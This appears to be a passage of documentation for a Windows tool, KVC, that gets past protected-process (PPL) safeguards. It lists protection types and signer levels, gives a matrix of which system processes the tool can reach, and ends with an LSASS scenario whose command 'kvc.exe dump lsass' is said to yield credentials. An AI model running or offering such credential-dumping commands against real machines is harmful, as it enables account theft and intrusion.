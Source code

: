 ```cpp
```

### Protection Types and Their Security Implications

#### Protection Level Hierarchy (Type Field)

```cpp
enum class PS_PROTECTED_TYPE : UCHAR {
    None = 0,           // Standard process - no protection
    ProtectedLight = 1, // PPL - Limited protection, common for services
    Protected = 2       // PP - Full protection, rare, media-related
};
```

#### Signer Type Authority Levels

```cpp
enum class PS_PROTECTED_SIGNER : UCHAR {
    None = 0,          // No signature requirement
    Authenticode = 1,  // Standard code signing
    CodeGen = 2,       // .NET code generation
    Antimalware = 3,   // Anti-malware vendors
    Lsa = 4,          // Local Security Authority
    Windows = 5,       // Microsoft Windows components
    WinTcb = 6,        // Windows Trusted Computing Base
    WinSystem = 7,     // Windows System components
    App = 8           // Windows Store applications
};
```

#### Real-World Protection Matrix

| Process | Type | Signer | KVC Capability |
|---------|------|--------|----------------|
| lsass.exe | PPL | WinTcb | ✅ Full Memory Access |
| csrss.exe | PPL | Windows | ✅ Process Manipulation |
| winlogon.exe | PPL | Windows | ✅ Token Duplication |
| MsMpEng.exe | PPL | Antimalware | ⚠️ Requires Defender Disable |
| services.exe | PPL | Windows | ✅ Service Management |
| wininit.exe | PPL | Windows | ✅ System Integration |

### Advanced Protection Scenarios

#### Scenario 1: LSASS Memory Acquisition

The LSASS process (Local Security Authority Subsystem Service) presents the most common target for credential extraction:

```bash
# Traditional approach (FAILS on modern Windows)
procdump.exe -ma lsass.exe lsass.dmp
# Result: Access Denied (0x80070005)

# KVC approach (SUCCEEDS)
kvc.exe dump lsass
# Result: Full memory dump with credentials
```

